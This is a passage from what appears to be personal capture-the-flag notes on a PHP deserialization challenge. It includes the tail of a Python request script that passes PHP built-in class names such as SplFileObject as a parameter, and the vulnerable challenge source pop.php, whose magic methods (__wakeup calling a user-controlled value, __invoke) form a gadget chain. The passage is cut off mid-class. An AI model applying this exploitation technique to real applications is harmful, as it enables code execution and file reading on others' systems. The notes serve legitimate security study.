 			  }, data = {
			      # "ctf":"DirectoryIterator",
			      "ctf":"SplFileObject",
			  })
			  print(r.text.replace("<br>", "<br>\n"))
			  ```
	- exp
		- pop.php
		  collapsed:: true
			- ```php
			  <?php
			  header("Content-type:text/html;charset=utf-8"); 
			  error_reporting(0);
			  show_source(__FILE__);
			  include('key.php');
			  include('waf.php');
			  
			  class Me {
			      public $qwe;
			      public $bro;
			      public $secret;
			  
			      public function __wakeup() {
			          echo("进来啦<br>");
			          $characters = 'abcdefghijklmnopqrstuvwxyz0123456789';
			          $randomString = substr(str_shuffle($characters), 0, 6);
			          $this->secret=$randomString;
			  
			          if($this->bro===$this->secret){
			          $bb = $this->qwe;        
			          return $bb();
			          }
			          
			          else{
			              echo("错了哥们,再试试吧<br>");
			          }
			      }
			  
			  }
			  
			  class her{
			      private $hername;
			      private $key;
			      public $asd;
			      public function __construct($hername,$key){
			          $this -> hername=$hername;
			          $this -> key=$key;
			      }
			      public function __invoke() {
			          echo("好累，好想睡一觉啊<br>");
			          serialize($this->asd);
			      }
			  